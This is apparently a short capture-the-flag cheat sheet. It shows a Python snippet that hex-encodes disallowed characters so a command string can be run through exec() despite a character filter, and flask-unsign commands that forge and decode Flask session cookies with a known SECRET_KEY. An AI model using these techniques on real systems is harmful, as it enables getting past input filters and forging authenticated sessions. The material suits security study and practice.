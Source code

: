 # Characters not allowed
Python commands can be run in hex form:
```python
string = 'command to be executed'
chars_not_allowed = '[]{}.1'
encoded = ['\\x' + x.encode('hex') for x in chars_not_allowed]
for i in range(len(encoded)):
    string = string.replace(chars_not_allowed[i], encoded[i])
exec(string)
```
Note: The transitions back only happen when the hex is in a string! You might want to escape `'` and `"` in the string!

Note: Try adding more `\\`'s if it doesn't work (`\\`, `\\\\`, `\\\\\\\\`)

# Flask
## Crafting sessions tokens
When the SECRET_KEY is given, these tokens can be maliciously crafted.

The tool [flask-unsign](https://github.com/Paradoxis/Flask-Unsign) provides us many useful functions.

Crafting: `flask-unsign --legacy --sign --cookie '{"key":val}' --secret 'SECRET_KEY'`

They can also be decoded: `flask-unsign --decode --cookie 'cookie_val'`
